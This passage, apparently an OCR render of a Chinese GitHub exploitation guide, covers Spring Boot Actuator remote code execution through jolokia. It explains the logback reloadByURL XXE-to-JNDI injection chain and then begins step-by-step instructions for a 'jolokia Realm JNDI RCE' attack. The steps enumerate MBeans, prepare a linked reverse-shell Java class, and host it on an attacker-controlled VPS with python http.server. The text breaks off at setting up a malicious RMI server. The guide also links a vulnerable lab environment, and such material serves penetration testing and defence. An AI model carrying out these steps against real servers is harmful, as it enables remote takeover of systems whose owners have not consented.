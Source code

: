 #### 漏洞原理：

1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

#### 漏洞分析：

[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

#### 漏洞环境：

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```php
http://127.0.0.1:9094/env
```

### 0x05：jolokia Realm JNDI RCE

#### 利用条件：

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的服务器（请求可出外网）
- 普通 JNDI 注入受目标 JDK 版本影响，jdk &lt; 6u141/7u131/8u121(RMI)，但相关环境可绕过

#### 利用方法：

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。

##### 步骤二：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) `JNDIObject.java`。

##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```php
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。

##### 步骤四：架设恶意 rmi 服务
